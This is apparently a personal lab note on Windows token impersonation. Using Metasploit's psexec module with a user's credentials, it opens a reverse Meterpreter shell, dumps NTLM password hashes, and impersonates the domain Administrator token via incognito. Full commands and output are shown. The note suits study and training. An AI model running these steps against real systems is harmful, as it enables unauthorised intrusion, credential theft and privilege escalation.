 # Token Impersonation

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots
